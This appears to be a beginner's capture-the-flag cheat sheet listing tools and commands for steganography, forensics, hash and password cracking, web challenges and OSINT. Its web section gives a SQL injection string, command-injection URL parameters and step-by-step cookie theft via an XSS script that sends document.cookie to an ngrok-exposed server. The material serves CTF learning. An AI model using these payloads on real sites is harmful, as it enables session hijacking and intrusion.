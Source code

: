 # **These are best used in Kali Linux**

## **Reverse Engineering**
  ### To analyze ELF files:
    - https://elfy.io/
  ### To dissamble ELF:
    - https://onlinedisassembler.com/odaweb/
    - decompiler: https://dogbolt.org/

## **For steganography and Forensics:**

  ### For general files:
    - exiftool (filename)
    - binwalk -e (filename)
    - file (filename)
    - foremost -v filename
    - cat filename ----{to read executables}
    - stegsnow -C -p '1234' newdos.txt
    - https://futureboy.us/stegano/decinput.html  (jpeg, wav or au)
    - 0 width chars: https://330k.github.io/misc_tools/unicode_steganography.html
    - twitter spacing: https://holloway.nz/steg/
    
  ### For images:
    - strings filename | grep (stringtosearch)
    - steghide --extract -sf <filename>
    - zsteg -a <filename.png>
    - https://www.aperisolve.com/ (all in one steg tool)
    - https://lukeslytalker.pythonanywhere.com/deepscan
    - pngcheck
    - sudo apt install ruby
      sudo gem install zsteg
      zsteg <filename>
      (detect LSB steganography only in the case of PNG and BMP images.)

  ### For audio files:
    - audacity <file_name>
    - sonic-visualiser <file_name>
    - AudioStego (https://github.com/danielcardeenas/AudioStego)
    - Morse code wav files: https://morsecode.world/international/decoder/audio-decoder-expert.html

  ### File Signatures/Magic Numbers:
    - GIF : 47 49 46 38 39 61 18 01
    - PNG/IHDR : 89 50 4E 47 0D 0A 1a 0A
    
  ##  **Password cracking tools:
    - fcrackzip tool 
      fcrackzip -u -D -p ~/rockyou.txt ~/zipfilename.zip
    - john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1 crack.txt
      for zip files:
        store the hash in a text file hash.txt
        first extract zip file hash : zip2john zipfile.zip > hash.txt
        then use john to crack: john --wordlist=rockyou.txt hash.txt 
    - stegcracker <file> [<wordlist>]   (used to crack passwords in files that contain hidden data)
    - sudo apt-get install pdfcrack
      pdfcrack -f <file_name> -w <location_of_wordlist_file>

  ## **For hashes**
    - https://hashtoolkit.com/
    - https://www.cmd5.org/
    - hashid - to identify the type of hash
    - www.crackstation.net
    - hashcat: 
      store the hash in a text file hash.txt
      hashcat -m <mode_number> -O hash.txt <wordlist>
      https://hashcat.net/wiki/doku.php?id=example_hashes
    
  ### Gcode simulator : https://nraynaud.github.io/webgcode/
  
  ## **Identify/Decode an unidentified encoding**
    - https://2cyr.com/decode/?lang=en
    - https://www.dcode.fr/cipher-identifier
    - https://gchq.github.io/CyberChef/
  
  
  ## **Barcode Reader/Detector**
  ### - https://products.aspose.app/barcode/recognize#/recognized
  
  ## **WEB forensics**
  ### Wayback machine
    - https://archive.org/web/

  ## **For Web Challenges:**
    - inspect element
    - view page source
    - robots.txt or other directory files (flag.txt)
    - check network (in inspect element) for any reloads/redirects
    - burpsuite
    - curl to send or receive data/payload
    - for sql injection try:
      abc' OR '1'='1'--
    - in URL, try ?cmd=ls -lrt
                  ?cmd=cd ..;ls -lrt
                  ?cmd=cat flag.txt 
    - try editing cookies (admin = True) [in login challenges]
    - to modify headers: use curl 
      ex. curl -H "Host: test.example" http://example.com/
    - try moving back directories using local file inclusion vulnerability
    - explore directories : append the url with /../
    - try checking for files like: /.git
    - to clone all directories of a website: wget -m <URL>
    - XSS: try entering html code or JS code (e.x <h1>hi</h1> or <script>alert(1)</script>
      using js:  1. setup web server: sudo python -m http.server 80
                 2. setup ngrok server: ngrok http 80
                 3. copy the web address displayed by ngrok
                 4. in vulnerave website, where you can post inputs, type <script>new Image().src='<copied url>?c='+document.cookie</script>
                 5. get admin cookie or required cookie in http server. replace your cookie with that cookie and refresh. 
    - template injection payload ex. {{7*7}}
    - check for xml injection (xxe vulnerability)
                

    
  ## **OSINT**
    - https://osintframework.com/
    - https://nixintel.info/osint/12-osint-resources-for-e-mail-addresses/
    - https://www.shodan.io/        (search engine for anything)
    - Google Dorking: https://infosecwriteups.com/finding-vulnerable-info-using-google-dorks-ethical-hacking-23f358117ceb
  
  
  ### Useful links and repos:
    - https://www.dcode.fr/cipher-identifier
    - https://gchq.github.io/CyberChef/
    - https://fareedfauzi.gitbook.io/ctf-checklist-for-beginner/steganography
    - https://infosecwriteups.com/beginners-ctf-guide-finding-hidden-data-in-images-e3be9e34ae0d
    - https://0xrick.github.io/lists/stego/
    - https://d00mfist.gitbooks.io/ctf/content/forensics/data-extraction.html
    - https://futureboy.us/stegano/decinput.html
    - https://www.dcode.fr/png-chunks
    - https://github.com/R0B1NL1N/PayloadsAllTheThings
    - https://shankaraman.wordpress.com/tag/how-to-extract-ftp-files-from-wireshark-packet/#:~:text=Just%20open%20the%20packet%20in,the%20files%20in%20a%20Directory.&text=Firstly%2C%20the%20Client%20(10.10.,request%20to%20the%20Server%20(78.47.
    - ophcrack
    - https://www.yeahhub.com/the-12-best-must-have-tools-for-steganography-updated-tools/
    - https://www.hackingarticles.in/online-message-decoder-spam-maker/
    - https://330k.github.io/misc_tools/unicode_steganography.html
    - https://wiki.bi0s.in/
    - encoding conversion: https://www.rapidtables.com/
    - hashcat cheatsheet: https://hashcat.net/wiki/doku.php?id=hashcat
                          https://github.com/frizb/Hashcat-Cheatsheet
    - lfi cheat sheet https://book.hacktricks.xyz/pentesting-web/file-inclusion
                      https://highon.coffee/blog/lfi-cheat-sheet/
    - search for vulnerabilities and exploits: https://book.hacktricks.xyz/welcome/readme
    - extract text from images: tesseract: tesseract -l eng <imagefile> output.txt
    - secret messages - https://holloway.nz/steg/
